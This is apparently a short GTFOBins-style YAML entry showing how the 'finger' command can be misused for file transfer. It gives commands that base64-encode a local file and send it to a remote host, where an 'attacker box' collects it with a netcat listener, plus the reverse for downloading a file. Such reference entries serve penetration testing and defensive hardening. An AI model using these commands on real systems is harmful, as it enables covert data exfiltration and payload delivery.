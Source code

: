```yaml
---
description: |
  `finger` hangs waiting for the remote peer to close the socket.
functions:
  file-upload:
    - description: Send a binary file to a TCP port. Run `sudo nc -l -p 79 | base64 -d > "file_to_save"` on the attacker box to collect the file. The file length is limited by the maximum size of arguments.
      code: |
        finger "$(base64 $LFILE)@$RHOST"
  file-download:
    - description: Fetch remote binary file from a remote TCP port. Run `base64 "file_to_send" | sudo nc -l -p 79` on the attacker box to send the file.
      code: |
        finger x@$RHOST | base64 -d > "$LFILE"
---
```

